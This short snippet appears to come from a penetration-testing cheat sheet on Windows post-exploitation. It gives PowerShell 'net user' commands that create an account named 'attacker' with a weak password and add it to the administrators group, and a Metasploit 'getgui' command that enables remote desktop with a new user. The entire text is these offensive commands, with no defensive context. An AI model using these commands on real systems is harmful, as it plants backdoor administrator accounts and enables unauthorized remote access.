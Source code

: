 # Adding Admin user + adding to RDP
```powershell
net user /add attacker password123
net localgroup administrators attacker
```



# getgui (Metasploit)
```
run getgui -e -u atk -p atk
```